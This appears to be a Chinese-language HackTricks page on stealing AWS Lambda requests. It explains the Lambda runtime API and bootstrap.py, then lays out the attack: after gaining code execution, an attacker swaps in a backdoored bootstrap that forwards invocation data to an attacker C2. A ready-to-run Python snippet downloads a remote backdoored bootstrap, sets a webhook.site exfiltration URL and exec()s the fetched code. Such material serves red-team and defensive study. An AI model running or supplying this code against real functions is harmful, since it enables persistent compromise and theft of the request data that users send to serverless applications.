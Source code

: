 # AWS - 偷取 Lambda 请求

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Lambda 流程

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** 是一个在容器外部的进程，**发送** **调用** 到 **init** 进程。
2. init 进程监听端口 **9001**，暴露一些有趣的端点：
* **`/2018-06-01/runtime/invocation/next`** – 获取下一个调用事件
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 返回调用的处理程序响应
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 返回执行错误
3. **bootstrap.py** 有一个循环从 init 进程获取调用并调用用户代码来处理它们 (**`/next`**).
4. 最后，**bootstrap.py** 将 **响应** 发送给 init

注意，bootstrap 将用户代码作为模块加载，因此用户代码执行的任何代码实际上都是在此进程中发生的。

## 偷取 Lambda 请求

此攻击的目标是使用户代码在处理易受攻击请求的 **`bootstrap.py`** 进程内部执行恶意 **`bootstrap.py`** 进程。这样，**恶意 bootstrap** 进程将开始 **与 init 进程通信** 以处理请求，而 **合法** 的 bootstrap 被 **困住** 运行恶意进程，因此它不会向 init 进程请求。

这是一个简单的任务，因为用户的代码是由合法的 **`bootstrap.py`** 进程执行的。因此攻击者可以：

* **向 init 进程发送当前调用的假结果**，使 init 认为 bootstrap 进程正在等待更多调用。
* 必须向 **`/${invoke-id}/response`** 发送请求
* invoke-id 可以通过使用 [**inspect**](https://docs.python.org/3/library/inspect.html) python 模块从合法的 **`bootstrap.py`** 进程的堆栈中获取（如 [这里所提议的](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)）或再次请求 **`/2018-06-01/runtime/invocation/next`**（如 [这里所提议的](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)）。
* 执行一个恶意的 **`boostrap.py`**，它将处理下一个调用
* 为了隐蔽性，可以将 lambda 调用参数发送到攻击者控制的 C2，然后像往常一样处理请求。
* 对于此攻击，只需从系统或 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) 获取原始的 **`bootstrap.py`** 代码，添加恶意代码并从当前 lambda 调用中运行它即可。

### 攻击步骤

1. 找到一个 **RCE** 漏洞。
2. 生成一个 **恶意** **bootstrap**（例如 [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py)）
3. **执行** 恶意 bootstrap。

您可以轻松地通过运行以下命令来执行这些操作：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
